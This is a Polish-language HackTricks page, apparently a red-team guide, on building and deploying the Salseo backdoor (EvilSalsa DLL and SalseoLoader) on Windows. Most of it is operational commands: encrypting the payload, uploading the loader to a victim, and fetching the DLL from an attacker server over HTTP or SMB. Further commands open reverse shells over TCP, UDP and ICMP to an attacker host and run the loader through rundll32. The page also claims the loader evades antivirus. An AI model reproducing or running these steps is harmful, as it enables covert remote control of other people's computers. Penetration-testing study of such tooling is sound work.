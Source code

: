 # Salseo

{% hint style="success" %}
Naucz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Kompilacja binarnych plików

Pobierz kod źródłowy z githuba i skompiluj **EvilSalsa** oraz **SalseoLoader**. Będziesz potrzebować zainstalowanego **Visual Studio** do skompilowania kodu.

Skompiluj te projekty dla architektury systemu Windows, na którym będziesz ich używać (jeśli Windows obsługuje x64, skompiluj je dla tej architektury).

Możesz **wybrać architekturę** wewnątrz Visual Studio w zakładce **"Build"** w **"Platform Target".**

(\*\*Jeśli nie możesz znaleźć tych opcji, kliknij w **"Project Tab"**, a następnie w **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Następnie zbuduj oba projekty (Build -> Build Solution) (W logach pojawi się ścieżka do pliku wykonywalnego):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Przygotuj Backdoor

Po pierwsze, będziesz musiał zakodować **EvilSalsa.dll.** Aby to zrobić, możesz użyć skryptu pythona **encrypterassembly.py** lub skompilować projekt **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, teraz masz wszystko, czego potrzebujesz do wykonania całej sprawy Salseo: **zakodowany EvilDalsa.dll** i **binarny plik SalseoLoader.**

**Prześlij binarny plik SalseoLoader.exe na maszynę. Nie powinny być one wykrywane przez żadne AV...**

## **Wykonaj backdoor**

### **Uzyskiwanie odwrotnego powłoki TCP (pobieranie zakodowanego dll przez HTTP)**

Pamiętaj, aby uruchomić nc jako nasłuchiwacz odwrotnej powłoki oraz serwer HTTP do obsługi zakodowanego evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Uzyskiwanie odwrotnego powłoki UDP (pobieranie zakodowanego pliku dll przez SMB)**

Pamiętaj, aby uruchomić nc jako nasłuchiwacz odwrotnej powłoki oraz serwer SMB do udostępniania zakodowanego pliku evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Uzyskiwanie odwrotnego powłoki ICMP (zakodowany plik DLL już w ofierze)**

**Tym razem potrzebujesz specjalnego narzędzia po stronie klienta, aby odebrać odwrotną powłokę. Pobierz:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Wyłącz odpowiedzi ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Wykonaj klienta:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Wewnątrz ofiary, wykonajmy rzecz zwaną salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompilowanie SalseoLoader jako DLL eksportujący funkcję główną

Otwórz projekt SalseoLoader za pomocą programu Visual Studio.

### Dodaj przed funkcją główną: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Zainstaluj DllExport dla tego projektu

#### **Narzędzia** --> **Menedżer pakietów NuGet** --> **Zarządzaj pakietami NuGet dla rozwiązania...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Wyszukaj pakiet DllExport (używając karty Przeglądaj) i naciśnij Zainstaluj (i zaakceptuj komunikat)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

W folderze projektu pojawiły się pliki: **DllExport.bat** i **DllExport\_Configure.bat**

### **D**einstalacja DllExport

Naciśnij **Odinstaluj** (tak, to dziwne, ale uwierz mi, to jest konieczne)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Zamknij Visual Studio i wykonaj DllExport\_configure**

Po prostu **zamknij** Visual Studio

Następnie przejdź do folderu **SalseoLoader** i **wykonaj plik DllExport\_Configure.bat**

Wybierz **x64** (jeśli zamierzasz użyć go wewnątrz systemu x64, tak było w moim przypadku), wybierz **System.Runtime.InteropServices** (wewnątrz **Przestrzeń nazw dla DllExport**) i naciśnij **Zastosuj**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Otwórz projekt ponownie w programie Visual Studio**

**\[DllExport]** nie powinno być już oznaczone jako błąd

![](<../.gitbook/assets/image (8) (1).png>)

### Zbuduj rozwiązanie

Wybierz **Typ wyjścia = Biblioteka klas** (Projekt --> Właściwości SalseoLoader --> Aplikacja --> Typ wyjścia = Biblioteka klas)

![](<../.gitbook/assets/image (10) (1).png>)

Wybierz **platformę x64** (Projekt --> Właściwości SalseoLoader --> Kompilacja --> Docelowa platforma = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Aby **zbudować** rozwiązanie: Buduj --> Buduj rozwiązanie (W konsoli wyjściowej pojawi się ścieżka nowego pliku DLL)

### Przetestuj wygenerowane Dll

Skopiuj i wklej plik DLL tam, gdzie chcesz go przetestować.

Wykonaj:
```
rundll32.exe SalseoLoader.dll,main
```
Jeśli nie pojawi się żadny błąd, prawdopodobnie masz działającą DLL!!

## Uzyskaj powłokę, korzystając z DLL

Nie zapomnij użyć **serwera HTTP** i ustawić **nasłuchiwacza nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### Wiersz poleceń
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Ucz się i praktykuj Hacking AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
